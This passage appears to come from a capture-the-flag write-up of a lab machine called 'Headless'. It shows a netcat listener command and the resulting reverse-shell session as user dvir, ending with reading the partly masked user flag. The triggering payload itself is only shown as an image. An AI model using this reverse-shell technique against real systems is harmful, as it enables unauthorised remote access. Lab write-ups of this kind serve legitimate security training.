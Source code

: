 So I will run the typical reverse shell command to gain access as dvir. First spawn a nc listener:

```bash
❯ nc -lvnp 443
listening on [any] 443 ...
```

Trigger the reverse shell:

![reverse shell triggered](/assets/images/Headless/reverse-shell-triggered.png)

We receive a shell as dvir and successfully can see user.txt:

![shell as dvir](/assets/images/Headless/shell-as-dvir.png)

```bash
dvir@headless:~/app$ cd
cd
dvir@headless:~$ ls
ls
app
geckodriver.log
user.txt
dvir@headless:~$ cat user.txt
cat user.txt
b8****************************00
```

